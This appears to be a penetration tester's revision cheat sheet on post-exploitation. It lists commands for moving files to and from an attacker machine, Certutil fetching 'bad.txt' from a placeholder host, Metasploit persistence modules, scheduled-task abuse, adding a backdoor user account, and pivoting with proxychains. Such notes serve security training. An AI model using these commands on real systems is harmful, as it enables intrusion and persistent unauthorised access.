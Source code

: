 ## Post Exploitation - Review

### File transfers
* python -m SimpleHTTPServer 80
* python -m pyftpdlib 21 (attacker ip)
*   ftp attackerip (windows machines)
* Certutil.exe -urlcache -f http://ip.address/bad.txt output.txt
* wget (linux machines)
* metasploit

---

### Maintaining access

#### Persistence Scripts (Metasploit)
* run persistence -h
* exploit/windows/local/persistence
* exploit/windows/local/registry_persistence

#### Scheduled Tasks
* run scheduleme
* run schtaskabuse

#### Add a user
* net user FakeUser Password1 /add

---

### Pivoting - Using a compromised device as a condui to reach new locations. For situations when a secondary device is only reachable through a compromised device, or for more covert activities (more in the realms of Red Teaming).

#### Proxychains: Bind port, Proxychain, Proxy  
    * device 1 has access to device 2 which is not reachable from our attacker machine device 0  
    * proxychain and bind port is setup on device 0  
    * proxy tunnel on devive 1  
    * target is device 2

#### Chisel

#### Sshuttle


* ssh (into device 1 and setup a proxy tunnel with a bind port, so all traffic will be proxied through device 1, between device 0 and 2.)
* proxychains nmap 10.10.10.225 | scans device 2 with standard nmap syntax, because this is pchained it may be unstable on syn scanning. So switch to -sT as tcp scanning could be better

---

### Cleaning up


